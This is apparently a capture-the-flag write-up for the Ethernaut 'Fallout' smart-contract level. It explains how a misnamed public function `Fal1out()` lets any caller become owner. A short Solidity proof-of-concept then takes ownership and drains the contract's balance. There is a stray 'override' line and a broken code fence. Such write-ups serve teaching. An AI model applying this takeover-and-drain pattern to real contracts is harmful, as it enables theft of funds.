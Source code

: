 # Objective

- [] you claim ownership of the contract

# Proof of Concept

The contract does not use the `constructor()` function, but instead a publicly accessible function named `Fal1out()`. Any account that sends some Ether to this function will be set as the new `owner` of the contract.

```
override 

```solidity
falloutContract.Fal1out{value: 1 wei}();
assertEq(falloutContract.owner(), attacker);

falloutContract.collectAllocations();
assertEq(address(falloutContract).balance, 0);
```
